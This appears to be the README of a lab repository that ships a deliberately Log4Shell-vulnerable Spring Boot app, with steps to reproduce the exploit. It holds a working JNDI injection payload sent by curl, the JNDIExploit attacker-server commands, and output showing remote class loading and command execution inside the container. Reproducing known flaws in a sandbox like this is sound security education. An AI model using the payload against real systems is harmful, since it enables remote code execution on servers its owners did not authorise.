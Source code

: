 # Vulnerable application

This repository contains a Spring Boot web application vulnerable to `CVE-2021-44228`, known as [log4shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses 
* `log-4j-core:2.14.1` (through `spring-boot-starter-log4j2`) and
* `openjdk:8u181`

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 romanutti/log4shell-vulnerable-app
```

Or alternatively, build it yourself:

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

Using the following steps you can reproduce a log4shell exploit. 
If you are not familiar with how the attack works under the hood check out this [snyk learn lesson](https://learn.snyk.io/lessons/log4shell/java/).

*Note: This is highly inspired from the original [lunasec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). Run at your own risk, preferably in a sandbox environment.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). I therefore recommend you to used the saved version from this repository.*

### Setup attacker servers
First we have to setup the attacker servers. This consist of
* a **LDAP server** that will redirect us to our malicious HTTP server
* a **HTTP server** that will run the exploit

We use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up the attacker servers.

```bash
git clone https://github.com/romanutti/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app/src/main/resources
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

### Triggering the exploit
As payload we want to execute `touch /tmp/pwned` (which is corresponds to the base64-encoded `dG91Y2ggL3RtcC9wd25lZAo=`) on the vulnerable applications server.

Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl localhost:8080 -H 'user: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

The output of JNDIExploit shows that the attacker servers responded with tha malicious exploit and executed the payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp

...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/  
https://github.com/christophetd/log4shell-vulnerable-app/
